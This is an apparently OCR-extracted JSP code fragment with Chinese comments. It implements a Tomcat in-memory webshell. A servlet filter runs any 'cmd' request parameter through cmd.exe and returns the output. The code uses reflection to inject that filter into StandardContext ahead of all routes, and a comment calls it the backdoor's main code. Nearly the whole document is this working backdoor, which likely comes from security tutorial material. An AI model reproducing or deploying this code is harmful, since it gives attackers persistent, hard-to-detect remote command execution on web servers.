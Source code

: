 ```jsp
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                //这里写上我们后门的主要代码
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd.exe","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                //别忘记带这个，不然的话其他的过滤器可能无法使用
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());

        // 将filterDef添加到filterDefs中
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        //拦截的路由规则，/* 表示拦截任意路由
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("注入成功");
    }
%>
```
